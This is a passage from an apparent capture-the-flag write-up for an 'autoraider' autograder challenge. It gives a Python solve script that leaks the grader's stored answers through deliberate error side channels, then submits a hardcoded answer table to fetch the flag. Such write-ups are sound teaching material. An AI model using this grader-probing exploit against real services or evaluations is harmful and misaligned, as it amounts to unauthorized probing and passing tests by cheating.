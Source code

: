 Finally, we know from the project spec and source that the answer to the final test case (the "edge case") is always `false`, so we do not need to figure out the answer.

Once we figure out all of the answers, we can submit code that simply returns the correct answer for each `questionNumber` and the edge case. This code should pass all the test cases, so then we can make a request to the `/grade` endpoint and get the flag!

## Solve Script

The number of questions (30) was chosen such that manually figuring out each answer was not too unreasonable, but writing a solve script was desirable to save time. This is my solve script written in Python that accomplishes the solution process outlined above.

```python
import requests

url_base = 'https://autoraider-bvel4oasra-uc.a.run.app/'

# Set up a session since the correct answers and pass status are stored in a session
s = requests.Session()

# Uploads code to the autograder
def upload_code(code):
    return s.post(url_base + 'upload', {'code': code}).text

# Converts list of answers to a Javascript array string
def make_answer_str(answers):
    return '[' + ','.join(answers) + ']';

answers = []
# Do from question 0 to question 28
for i in range(29):
    answers_str = make_answer_str(answers);
    # Construct code submission
    #   Returns correct answer for known answers
    #   Returns guess of false for question i
    #   Creates an error for question i+1 (returns an undefined variable)
    code = 'function oracle(p,q) { answers = ' + answers_str + '; if(q < answers.length) { return answers[q] } else if(q === answers.length) { return false } else { return a } }';
    res = upload_code(code);
    # If grader reached our error, our assumption that the last answer was false is correct
    # Otherwise, the last answer was actually true
    answers.append('false' if 'error' in res else 'true');

# Use edge case (which we know the answer to) to figure out question 29
#   Returns correct answer for known answers
#   Returns guess of false for question 29
#   Creates an error for edge case (returns an undefined variable)
answers_str = make_answer_str(answers);
res = upload_code('function oracle(p,q) { answers = ' + answers_str + '; if(p > 7754000) { return a } else if(q < answers.length) { return answers[q] } else { return false } }');
answers.append('false' if 'error' in res else 'true');

# Upload solution
answers_str = make_answer_str(answers);
upload_code('function oracle(p,q) { answers = ' + answers_str + '; if(p > 7754000) { return false } else { return answers[q] } }');

# Grade and print response
print(s.get(url_base + 'grade').text)
```